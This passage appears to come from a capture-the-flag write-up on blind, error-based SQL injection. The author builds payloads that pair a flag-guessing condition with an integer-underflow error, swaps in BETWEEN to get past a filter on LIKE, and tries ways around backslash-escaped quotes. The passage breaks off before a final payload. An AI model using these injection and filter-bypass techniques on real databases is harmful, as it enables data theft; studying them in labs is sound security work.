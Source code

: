 So far, the only way I can come up with is to chain with the **`AND`, `OR` operator, `CASE`, `WHEN`, `THEN`, `ELSE`, `END` clauses** to leak the flag record.

Consider this:

```sql
SELECT * FROM items WHERE name = E'\\' OR <flag_brute_force_condition> AND <integer_underflow_condition>--'
```

In here, we have 2 conditions:
1. If the brute forced flag string **doesn't match**, the integer underflow condition **will NOT get executed**, which means **no error**.
2. If the brute forced flag string **matches**, the integer underflow condition **will get executed**, which means **error will occur**.

Hmm... What exactly is our flag brute force condition then?

Something like this?

```sql
SELECT * FROM items WHERE name = E'\\' OR description = '<flag_characters_here>' AND <integer_underflow_condition>--'
```

Nope, we'll need to brute force the entire flag string.

How about this?

```sql
SELECT * FROM items WHERE name = E'\\' OR description LIKE '<flag_characters_here>%' AND <integer_underflow_condition>--'
```

Oh, wait... We can't use keywords `LIKE` and `SIMILAR TO` because of the second regex pattern...

Upon researching, we can actually use the **`BEWTEEN` operator** to bypass the second regex pattern:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN 'a' AND 'c'--
```

In here, the record will contains records that column `description` are start with from "a" to "c". With this example, we can basically replace the `LIKE` or `SIMILAR TO` keywords with `BETWEEN`.

Ok... I think we can construct our final payload... Well, not yet.

How about the single quote character (`'`)? Since it'll be escaped with a backslash character (`\`), the escape character will make it as an invalid syntax:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN \'a\' AND \'c\'--
```

This time, we can't use escape the escape character, because it'll also cause an invalid syntax:

```sql
SELECT * FROM items WHERE name = E'\\' OR description BETWEEN \\'a\\' AND \\'c\\'--
```

Uhh... Can we just use double quote character (`"`)?
